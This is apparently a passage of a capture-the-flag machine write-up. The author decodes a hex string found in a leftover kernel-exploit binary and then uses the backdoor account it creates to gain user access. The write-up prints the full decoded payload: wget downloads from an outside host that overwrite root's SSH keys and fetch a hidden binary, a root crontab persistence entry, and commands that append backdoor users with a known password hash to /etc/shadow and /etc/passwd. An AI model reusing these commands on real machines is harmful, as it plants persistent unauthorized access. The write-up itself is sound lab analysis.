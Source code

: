 I thought starting with the cronjob is a good idea. It's a binary file and I tried to
figure out what it does - by using Ghidra and by executing it, together with ptrace/strace.
But I made no progress at all. A few hours later, the machine was updated and the changelog said:

> Removed the .main file as it was not a part of the intended path and was causing issues.

Well, back to square one. The next candidate was `/var/backups/info`, another binary
file - let's just run it:
```plain
www-data@production:/tmp$ /var/backups/info
/var/backups/info
[-] substring 'ffff' not found in dmesg
[.] starting
[.] namespace sandbox set up
[.] KASLR bypass enabled, getting kernel addr
```
When searching for "KASLR bypass enabled, getting kernel addr", we find some
[exploit poc code](https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-1000112/poc.c)...
but it's no longer working, at least on this machine. What could we possibly
do with an exploit that's no longer working?

It really took some time until the idea came: Let's try to see if there is a
payload inside and if so, what was it doing? Usin the `strings` command on this file
shows some noise, but a long hexadecimal string stands out. We put that
string into [CyberChef](https://gchq.github.io/CyberChef/) and see:
```plain
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys;wget tempfiles.xyz/.main -O /var/lib/.main; chmod 755 /var/lib/.main; echo "* 3 * * * root /var/lib/.main" >> /etc/crontab; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd; while read -r user group home shell _; do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd; done < users.txt; rm users.txt;
```
What exactly is happening?

* `/root/.ssh/authorized_keys` is overwritten - but we don't have the private key, so not useful for us.
* `/var/lib/.main` is downloaded and installed as cronjob. We already know this is a false trail.
* A new user (with a trailing "1") is inserted into `/etc/shadow`, and we can also see the hashed password.
That looks promising!

So we put that hash into hashcat, `su steven1` and done - we now have user access.

## Root

We also remember that there was some mail, which we are now able to read:

> Hi Steven.
>
>We recently updated the system but are still experiencing some strange behaviour with the Apache service.
>We have temporarily moved the web store and database to another server whilst investigations are underway.
>If for any reason you need access to the database or web application code, get in touch with Mark and he
>will generate a temporary password for you to authenticate to the temporary server.
>
>Thanks,
>sysadmin
